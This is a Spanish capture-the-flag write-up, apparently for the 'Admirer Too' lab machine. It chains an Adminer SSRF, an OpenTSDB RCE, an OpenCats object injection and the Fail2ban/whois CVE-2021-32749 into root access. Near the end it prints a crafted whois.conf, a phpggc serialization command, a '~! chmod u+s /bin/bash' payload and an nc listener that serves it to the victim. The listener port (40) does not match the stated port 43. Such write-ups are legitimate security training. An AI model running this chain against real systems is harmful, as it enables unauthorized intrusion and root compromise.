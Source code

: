 ----------
- Tags: #subdomain #adminer #SSRF #local-port-forwarding #port-discovery #opentsdb #opencats #fail2ban #phpggc #whois 
---------------
## Técnicas utilizadas
- Subdomain Enumeration  
- Adminer Enumeration  
- SSRF (Server Side Request Forgery) in Adminer [CVE-2021-21311]  
- Abusing redirect to discover internal services  
- OpenTSDB Exploitation [CVE-2020-35476] [Remote Code Execution]  
- Searching for valid metrics  
- OpenCats PHP Object Injection to Arbitrary File Write  
- Abusing Fail2ban [Remote Code Execution] (CVE-2021-32749)  
- Playing with phpggc in order to serialize our data  
- Abusing whois config file + OpenCats + Fail2ban [Privilege Escalation]
## Procedimientos
![[Pasted image 20230719130350.png]]

#### Reconocimiento
Si lanzamos un **nmap** sobre la maquina podemos ver los siguientes puertos abiertos:
```ruby
# nmap -sCV -p22,80 -oN Ports 10.10.11.137
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-20 11:59 MST
Nmap scan report for 10.10.11.137
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 993347e65f1f2efd45a4ee6b78fbc0e4 (RSA)
|   256 4b285364925784775f8dbfafd522e110 (ECDSA)
|_  256 71ee8ee598ab08433b8629572326e910 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Admirer
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Un escaneo con **whatweb** para ver las tecnologías que corren por detras nos muestra lo siguiente:
```ruby
# whatweb 10.10.11.137
http://10.10.11.137 [200 OK] Apache[2.4.38], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[10.10.11.137], JQuery[1.11.2], Modernizr[2.8.3-respond-1.4.2.min], Script, Title[Admirer], X-UA-Compatible[IE=edge]
```

---------------
#### Subdomain Enumeration  
Si visitamos la pagina, encontramos una web estatica. Solo contiene imagenes y demás. Enumerando por directorios, no llegamos a dar con nada importante realmente. Algo interesante es que si ocasionamos un **404 Not Found** y hacemos **Hovering** sobre la **IP** podemos ver el nombre de un dominio. Esto tambien lo podriamos haber visto con la herramienta **nslookup**.

Si colocamos el domino encontrado en el */etc/hosts* y recargamos la pagina, no vemos nada pero esto nos da la posibilidad de hacer un ataque de fuerza bruta para encontrar subdominios con herramientas como **Gobuster** o **Wfuzz**. Encontramos los siguientes subdominios:
![[Pasted image 20230720121134.png]]

Si visitamos ahora la pagina con el subdomino encontrado, vemos un login.
![[Pasted image 20230720121222.png]]

----------
#### Adminer Enumeration  
Vemos que al darle al boton **Login** nos autentica automaticamente, sin colocar ningun usuario ni contraseña. Vamos a interceptar esta petición con **BurpSuite** por que probablemente se estan enviando credenciales por detras que nosotros de primera no logramos ver. Y encontramos efectivamente credenciales:
![[Pasted image 20230720121546.png]]

------------
#### SSRF (Server Side Request Forgery) in Adminer [CVE-2021-21311]  
Enumerando un poco el **Adminer** ( Gestor de base de datos ) no llegamos a encontrar nada de relevancia. Sin embargo, vemos que la versión de Adminer ( Se puede ver en la pagina ) es algo antigua. Podemos buscar por vulnerabilidades existentes en la versión en uso. Encontramos un **SSRF**:
![[Pasted image 20230720121641.png]]

-----------
#### Abusing redirect to discover internal services
Bueno, el **CVE** nos dice que existe un **SSRF** en la parte de autentificación, basicamente nos dice que hay que tener la siguiente configuración para que se acontezca:
![[Pasted image 20230719150500.png]]

Además, nos deja un pequeño script en **python2** que nos automatiza el trabajo. Lo descargamos en nuestra maquina y lo ejecutamos. Este nos ejecutara un servidor en remoto que nos ayudara a descubrir los servicios internos. Mandamos la petición de burpsuite y podemos ver la petición. Bueno, ahora que sabemos que funciona, toca enumerar servicios internos. Podemos hacer un escaneo con **nmap** ahora filtrando por puertos que esten cerrados o filtrados externamente, el escaneo nos da los siguientes puertos:
![[Pasted image 20230720121906.png]]

Bien, ahora que conocemos algunos puertos filtrados a los cuales de primera no podemos llegar, podemos apuntar a estos a través del SSRF con el script y vemos lo siguiente:
![[Pasted image 20230720122331.png]]

----------
#### OpenTSDB Exploitation [CVE-2020-35476] Remote Code Execution
Damos con servicio **HTTP** que esta corriendo **OpenTSDB**. Si buscamos por vulnerabilidades en google, encontramos que existe un **RCE** y nos dejan ademas, una prueba de concepto la cual podemos replicar para conseguir ejecutar comandos. El output de lo anterior es el siguiente:
![[Pasted image 20230720123116.png]]

Al parecer ha fallado, esto dado a que necesitamos una **Metrica** que sea correcta.

-------
#### Searching for valid metrics
Si buscamos maneras de listar las **Metricas** existentes en **OpenTSDB** encontramos el siguiente [articulo](https://stackoverflow.com/questions/18396365/opentsdb-get-all-metrics-via-http) que nos dice que podemos mandar una petición a la **API** para listar las **Metricas**. Vemos las metricas:
![[Pasted image 20230720123420.png]]

--------
#### OpenCats PHP Object Injection to Arbitrary File Write
Una vez dentro, estamos como el usuario **OpenTSDB** y tenemos que migrar al usuario **Jennir**. Podemos encontrar las credenciales de **Jennifer** en un archivo de configuración para la base de datos del **Adminer**.
![[Pasted image 20230720125802.png]]

Si listamos los servicios que estan corriendo internamente, encontramos que hay uno que corresponde a una pagina web:
![[Pasted image 20230720125833.png]]

Podemos hacer **Port Forwarding** del puerto para tenerlo visible desde nuestra maquina. Al ingresar a la pagina vemos que se trata de un **OpenCats**. Si intentamos reutilizar las credenciales de **Jennifer** en el login podemos ingresar al panel de **Admin**:
![[Pasted image 20230720130351.png]]

Dentro podemos ver la versión que se esta actualmente utilizando para **OpenCats**:
![[Pasted image 20230720130417.png]]

Buscando por vulnerabilidades en **Google**, encontramos que hay una de tipo **Object Injection**. Nos comparten un [exploit](https://github.com/ambionics/phpggc), ademas de una [PoC](https://snoopysecurity.github.io/posts/09_opencats_php_object_injection/). Basicamente podemos subir una WebShell abusando de una **Deserialización** de la data. Abusando de esto, vemos que no podemos llegar a nada dado que el usuario que esta ejecutando el servidor web es **www-data**, asi que aunque pudieramos escribir en la pagina, seria como el usuario **www-data**.

-------
#### Abusing Fail2ban [Remote Code Execution] (CVE-2021-32749)  
Listando algunos logs de la maquina, damos con uno que resulta interesante y pertecene a **Fail2Ban**:
![[Pasted image 20230720132008.png]]

Si buscamos por vias potenciales para abusar de esto, encontramos un [articulo](https://research.securitum.com/fail2ban-remote-code-execution/) que explica muy bien como realizarlo. Vamos a tener que abusar de **Whois** y su archivo de configuración. Este archivo recide en **/usr/local/etc** directorio al cual de primeras no tenemos capacidad de lectura y escritura. Podemos crear una data **serializada** y dentro de esta intentar burlar las expresiones regulares de **Whois**. Leyendo del **repositorio** de **whois** encontramos que este lee del archivo de configuración un total de **512** bytes:
![[Pasted image 20230720112056.png]]

Asi que podemos crear una data que contenga esas caracteristicas:
```
# python -c 'print("]*10.10.10.10 10.10.10.10" + " "*500)' > whois.conf
```

-----------
#### Playing with phpggc in order to serialize our data  
Almacenamos el output en un archivo y posteriormente **serializamos** la data con **phpggc**:
```
# ./phpggc -u --fast-destruct Guzzle/FW1 /usr/local/etc/whois.conf whois.conf
```

Y esa data la pasamos a la **URL** que nos ofrecia el [PoC](https://snoopysecurity.github.io/posts/09_opencats_php_object_injection/) para que cree el archivo en la ruta deseada con la estructura indicada. La data final tendria que tener este aspecto:
![[Pasted image 20230720133737.png]]

Para verificar que lo anterior ha funcionado podemos ponernos en escucha por el puerto **43** ( puerto por defecto de **whois** ) y lanzamos un **whois** desde la maquina victima a la nuestra:
![[Pasted image 20230720133620.png]]

------
#### Abusing whois config file + OpenCats + Fail2ban [Privilege Escalation]
Ahora, podemos crear un archivo de configuración que sea tal como esto:
```
oiowahaishjdb ajdbasjd
~! chmod u+s /bin/bash
```

Nos ponemos en escucha con **Nc** por el puerto **43** compartiendo el archivo el archivo anteriormente creado:
```
# nc -lvnp 40 < pwned
```

Lo que nos quedaria por hacer es lograr que el servidor nos banee para que este aplique el **whois** el cual leera de nuestra maquina el archivo de configuración anteriormente creado y le asignara **SUID** a la **Bash**:
![[Pasted image 20230720134613.png]]

Listamos los privilegios de la **Bash** y es **SUID**:
![[Pasted image 20230720134633.png]]



